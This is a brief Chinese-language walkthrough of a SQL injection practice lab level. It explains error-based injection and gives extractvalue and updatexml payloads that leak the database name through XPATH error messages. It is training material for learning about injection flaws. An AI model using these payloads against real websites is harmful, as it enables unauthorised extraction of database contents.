

# 第五关
# series-5
第五关没有回显数据但是会显示报错的信息，
所以可以使用报错注入

报错注入是将数据在报错的数据中显示出来
1.extractvalue
构造是:
and extractvalue(null,concat(0x7e,(select database()),0x7e))
extractvalue让后台的xml故意报错
利用这个方式，对后台进行一个排序，指定第一个参数为null空值，让它故意报错，将第二个参数中的语句带入数据库执行，最后报错显示执行的结果
0x7e=~
也是故意让它报错的

得到回显的信息:
XPATH syntax error:'~security~'
得到报错回显的数据库名称

得到报错回显的表明

得到报错回显的字段名
_
2.updatexml
构造是:
and 1=(updatexml(1,concat(0x7e,(select database())),1))
updatexml这个函数是用来更新xml数据的
让它故意报错执行sql语句

之后的注入都是一样的
:D

